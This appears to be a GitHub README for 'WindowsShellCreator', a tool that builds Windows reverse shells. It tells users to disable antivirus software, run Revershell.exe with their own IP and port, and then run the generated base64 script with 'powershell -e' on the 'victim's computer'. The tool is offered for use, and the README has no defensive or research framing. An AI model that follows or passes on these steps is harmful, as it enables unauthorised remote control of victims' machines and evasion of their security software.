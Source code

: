 # WindowsShellCreator
### (Stable Release)

## How to Use ?
#### 1. Disable AntiVirus Software
#### 2. Download Zip File 
#### 3. Extract File
#### 4. Open CMD or Powershell as Administrator 
#### 5. type "Revershell.exe -H 'your device ip' -p 'Choose your port number' -b64 'y/n'"
### Note- You must specify whether you want base64 encoding via the ``` -b64 ``` flag.

## How to use base64 encode script ?
#### -> Copy the base64 code and go to victim's computer and type ``` powershell -e ``` and paste the copied base64 script [e.g. ```` powershell -e 'base64encode here' ````]
